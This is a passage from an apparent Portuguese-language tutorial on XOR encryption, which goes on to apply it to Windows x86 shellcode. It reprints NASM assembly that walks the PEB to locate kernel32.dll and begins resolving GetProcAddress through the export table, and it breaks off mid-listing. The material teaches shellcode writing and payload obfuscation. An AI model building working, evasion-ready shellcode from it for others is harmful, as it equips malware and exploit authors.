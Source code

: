O texto cifrado é `00000011` (ASCII 3). Para decriptar:

Decriptação:

```
    00000011 (texto cifrado)
XOR 01001011 (K)
	---------
	01001000 (H)
```

Recuperamos o texto claro original "H".

#### Segurança

A criptografia XOR é extremamente simples e, por si só, não é segura para a maioria das aplicações práticas, especialmente se a chave for reutilizada. Alguns pontos importantes:

1. **Reutilização de Chaves**: Se a mesma chave for reutilizada para diferentes textos claros, padrões podem ser descobertos e o texto claro pode ser recuperado.
2. **Chaves Longas**: Para maior segurança, a chave deve ser tão longa quanto o texto claro e usada apenas uma vez (*One-Time Pad*). Quando a chave é completamente aleatória e usada apenas uma vez, a criptografia XOR é teoricamente inquebrável.
3. ***Pseudorandomness***: Em sistemas práticos, chaves pseudoaleatórias são usadas, mas isso pode introduzir fraquezas se o gerador de números pseudoaleatórios não for forte.

### Aplicando XOR no *shellcode*

Recapitulando o *shellcode* desenvolvido no [último artigo](https://h41stur.com/posts/shellcoding101/#shellcode-com-endere%C3%A7os-din%C3%A2micos), temos o seguinte código ASM:

```nasm
global _start

section .text

_start:

getKernel32:

    xor eax, eax            ;zerando o registrador
    mov eax, [fs:0x30]      ;movendo o offset da PEB de fs (File Segment) para eax
    mov eax, [eax + 0x0c]   ;movendo o offset da LDR (PEB + 0x00c) para eax
    mov eax, [eax + 0x14]   ;movendo o offset da InMemoryOrderModuleList (LDR + 0x014) para eax
    mov eax, [eax]          ;carregando o endereço efetivo do primeiro modulo - o executavel em si
    mov eax, [eax]          ;carregando o endereço efetivo do segundo modulo - ntdll.dll
    mov ebx, [eax + 0x10]   ;carregando o endereço base do terceiro modulo - kernel32.dll

getProcAddress:

    ;enviando nome da função para stack
    xor edx, edx                ;zerando o registrador
    push 0x4e4e7373             ;movendo NNss para stack
    sub word [esp + 0x2], 0x4e4e ;removendo o "NN"
    push 0x65726464             ;movendo erdd para stack
    push 0x41636f72             ;movendo Acor para stack
    push 0x50746547             ;movendo PteG para stack
    ;encontrando o endereço da Export Table e armazenando em edx
    mov edx, [ebx + 0x3c]       ;conteudo de 0x3c é f8 e foi movido para edx
    add edx, ebx                ;adicionado o endereço base da kernel32 a f8
    mov edx, [edx + 0x78]       ;adicionado 0x78 (170 - f8) para obter o RVA de Image Export Directory
    add edx, ebx                ;adicionado o endereço base da kernel32 para obter o endereço base de Image Export Directory
    ;encontrando o endereço da Export Name Pointer table e armazenando em ecx
    mov ecx, [edx + 0x20]       ;adicionadno 0x20 para obter o RVA da Export Name Pointer Table
```